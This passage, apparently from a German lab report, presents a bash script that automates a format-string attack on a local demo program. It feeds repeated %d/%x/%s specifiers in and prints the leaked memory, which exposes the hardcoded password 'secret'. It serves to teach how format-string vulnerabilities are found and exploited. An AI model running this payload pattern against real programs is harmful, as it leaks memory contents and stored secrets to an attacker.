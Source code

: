 \subsection{Script zur Automatisierung}
Es wurde ein Bash-Script geschrieben, das diese Schwachstalle
automatisiert ausnutzt: 
\begin{lstlisting}
#!/bin/sh
make
if [ $# -eq 0 ]
then
   echo "Error - Number missing form command line argument"
   echo "Syntax : $0 number"
exit 1
fi
n=$1
input="%d%x(%s)"
var="%d"
i=0
while [ $i -le $n ]
do
  echo $input | ./sfv
  input=$var$input
  i=`expr $i + 1`
done
\end{lstlisting}
Es bekommt als Argument eine Zahl übergeben, wie oft die darunterliegenden Schleife durchlaufen werden soll, also wie
viele aufeinanderfolgende Speicheradressen man sich ansehen möchte. Ruft man das Script mit Argument 5 auf sieht der 
Output folgendermaßen aus:
\begin{lstlisting}
$ ./exploit.sh 10
make: Für das Ziel »all« ist nichts zu tun.
Passwort eingeben:
./exploit.sh: Zeile 18: 12848 Fertig                  echo $input
     15060 Segmentation fault      | ./sfv
Passwort eingeben:
./exploit.sh: Zeile 18:  4260 Fertig                  echo $input
     14752 Segmentation fault      | ./sfv
Passwort eingeben:
./exploit.sh: Zeile 18:  4632 Fertig                  echo $input
      9568 Segmentation fault      | ./sfv
Passwort eingeben:
./exploit.sh: Zeile 18:  4812 Fertig                  echo $input
     13024 Segmentation fault      | ./sfv
Passwort eingeben:
2337844162899732816801720691680172069201571638929732528()

Passwort eingeben:
23378441628997328168017206916801720691680172069623409189a2973(secret
)

Passwort eingeben:
23378441628997328168017206916801720691680172069201571638975461524020bb(test

Passwort eingeben:
233784416289973281680172069168017206916801720691680172069265219742026834020b5(
Passwort eingeben:
233784416289973281680172069168017206916801720691680172069245046942026834202677
Passwort eingeben:
233784416289973281680172069168017206916801720691680172069245046942026834202677
Passwort eingeben:
233784416289973281680172069168017206916801720691680172069245046942026834202677
\end{lstlisting}
Der Output ist natürlich systemabhängig und kann auf 32-bit Prozessoren ganz anders aussehen als auf 64-bit Prozessoren.
Auch macht es einen Unterschied ob man Linux oder Linux-Emulatoren, wie das hier verwendete Cygwin, verwendet.
Bekommt man keine Strings zurück, gibt es entweder keine oder man sollte die Schleifendurchläufe erhöhen.
In diesem Durchlauf sind wir auf 2 Strings gestoßen, test und secret. Letztes ist dann auch das gesuchte Passwort, das
im Quellcode Plain-Text als Zeichenkette gespeichert wurde.
